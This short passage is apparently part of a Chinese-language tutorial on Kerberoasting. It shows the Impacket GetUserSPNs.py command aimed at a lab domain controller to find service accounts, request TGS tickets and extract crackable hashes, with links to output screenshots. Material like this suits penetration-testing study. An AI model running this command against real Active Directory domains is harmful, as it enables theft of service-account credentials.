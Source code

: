 [![](assets/1708919803-35217f481a1f4fc2108d8facb25e92c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142250-2419ea48-ce26-1.png)

### 使用 Impacket

使用`GetUserSPNs.py`脚本可以自动化发现 SPN、提取 TGS、转换为 HASH

```bash
python GetUserSPNs.py -request -dc-ip 192.168.3.144 rootkit.org/micle
```

[![](assets/1708919803-692e49c544d81c8c5f249e215eab7c64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142254-26b2b99c-ce26-1.png)
